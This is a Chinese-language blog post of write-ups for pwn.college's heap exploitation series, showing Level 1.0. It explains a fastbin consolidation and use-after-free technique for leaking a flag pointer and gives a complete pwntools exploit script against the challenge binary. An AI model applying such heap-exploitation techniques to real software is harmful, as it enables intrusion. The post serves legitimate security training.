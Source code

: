 ```yaml
---
title: "Write-ups: Software Exploitation (Dynamic Allocator Exploitation) series"
published: 2025-10-17
updated: 2025-10-17
description: "Write-ups for pwn.college binary exploitation series."
image: "https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.5xb01rcaey.avif"
tags: ["Pwn", "Write-ups", "Heap"]
category: "Write-ups"
draft: false
---
```


# 前言

冲冲冲，尽快拿下这一章然后学 FSOP，同时空下来学点 IoT，提前进军 realworld 。

# Level 1.0

## Information

- Category: Pwn

## Description

> Leverage consolidation to obtain the flag.

## Write-up

先填满 tcache，然后再申请同样大小就进入 fastbin 了，接着释放，让它可再次被分配，由于 malloc 超出 smallbin 范围的 chunk 会先触发 `malloc_consolidate`，强制合并所有 fastbin 到 top chunk，所以 `read_flag` 可以返回我们 fastbin 中那个 free 的地址，而由于 free 的时候并没有清除结构体中保存的指针，所以我们可以通过 puts UAF 泄漏其值。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/toddlerheap_level1.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("/challenge/lib/libc.so.6")


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx))


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def mangle(pos, ptr, shifted=1):
    if shifted:
        return pos ^ ptr
    return (pos >> 12) ^ ptr


def demangle(pos, ptr, shifted=1):
    if shifted:
        return mangle(pos, ptr)
    return mangle(pos, ptr, 0)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    for i in range(7):
        malloc(i, 0)

    malloc(7, 0)

    for i in range(7):
        free(i)

    raw_input("DEBUG")
    free(7)
    read_flag()
    puts(7)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```
